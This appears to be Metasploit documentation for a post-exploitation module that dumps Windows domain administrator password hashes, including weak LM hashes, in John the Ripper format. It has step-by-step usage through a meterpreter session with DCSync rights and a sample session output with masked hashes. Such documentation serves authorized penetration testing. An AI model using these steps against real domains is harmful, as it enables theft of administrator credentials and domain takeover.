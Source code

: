 ## Vulnerable Application

  The post-exploitation module, `windows/gather/enum_domain_admin_hashes`, is useful for gathering Windows domain administrator password hashes in JTR format.  This module has been observed to obtain more critically-weak LM hashes versus other methods (such as impacket's secretsdump.py).

## Verification Steps

  1. Start `msfconsole`
  2. Obtain a meterpreter session under the context of a domain administrator (or any account with domain DCSync privileges).
  3. Do: ```run post/windows/gather/enum_domain_admin_hashes```
  4. The reported loot file should now have password hashes in JTR-formatted (many of which should include weak LM hashes!).

## Options

  No options are available.

## Scenarios

  ```
meterpreter > run post/windows/gather/enum_domain_admin_hashes 

[*] Loading kiwi module...
[*] Enumerating members of "Domain Admins" group for domain ACME...
[*] Found 5 domain admin accounts.
[+] ACME\Administrator:500:81****************************:b7****************************:::
[+] ACME\janesmith:5000:04****************************:af****************************:::
[+] ACME\johnsmith:5001:5b****************************:e1****************************:::
[+] ACME\lafawnduh:5002:4d****************************:1d****************************:::
[+] ACME\reginaldsmith:5003:ec****************************:20****************************:::
[*] Domain admin hash enumeration complete.
[*] Hashes stored in JTR format in /home/jdog/.msf4/loot/20180508180027_default_10.10.10.154_windows.hashes_65325.txt
  ```
